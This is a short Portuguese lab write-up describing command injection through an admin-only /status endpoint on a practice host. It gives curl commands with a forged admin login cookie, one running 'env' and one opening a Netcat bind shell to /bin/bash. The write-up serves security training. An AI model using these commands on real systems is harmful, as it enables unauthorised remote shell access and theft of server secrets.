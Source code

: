 ![](assets/2023-09-04-00-23-57.png)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://empresasegura.lab:8080/status' \
    -X POST \
    --data 'cmd=env'
```

Para subir um shell reverso, caso o servidor tenha Netcat instalado:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://empresasegura.lab:8080/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```
